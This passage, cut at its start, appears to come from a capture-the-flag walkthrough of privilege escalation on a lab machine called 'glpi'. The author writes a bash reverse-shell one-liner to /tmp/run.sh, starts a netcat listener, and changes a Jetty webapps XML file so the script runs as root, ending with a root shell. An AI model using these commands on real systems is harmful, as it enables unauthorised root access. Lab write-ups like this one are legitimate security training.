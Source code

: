 The file will run the `/tmp/run.sh` file as root which will give us the root shell.

- Create reverse shell in `/tmp/run.sh` file.

> Note: In order to trigger the jetty server, the run.xml file has to be updated or renamed or anything. The modification of xml file inside the webapps folder will immediately trigger the server.
>
> So it will be great if the /tmp/run.sh file is created before run.xml file. Another important note that the out of band connections are not allowed in the machine, so for root shell reverse connection the netcat should be running internally.

## /tmp/run.sh

```sh
echo "bash -c 'bash -i >& /dev/tcp/127.0.0.1/4444 0>&1'" > /tmp/run.sh
```

- Running netcat listener locally.

```sh
ty@glpi:~$ which nc
/usr/bin/nc
betty@glpi:~$ /usr//bin/nc -lvnp 4444
Listening on 0.0.0.0 4444
```

- Add xml exploit to the run.xml file.

```sh
betty@glpi:/opt/jetty/jetty-base/webapps$ nano run.xml
betty@glpi:/opt/jetty/jetty-base/webapps$ ls
run.xml
betty@glpi:/opt/jetty/jetty-base/webapps$ 
```

- Wait for reverse connection.

```sh
betty@glpi:~$ /usr//bin/nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 127.0.0.1 34940
bash: cannot set terminal process group (1254): Inappropriate ioctl for device
bash: no job control in this shell
root@glpi:/opt/jetty/jetty-base# 
```

**Root Obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).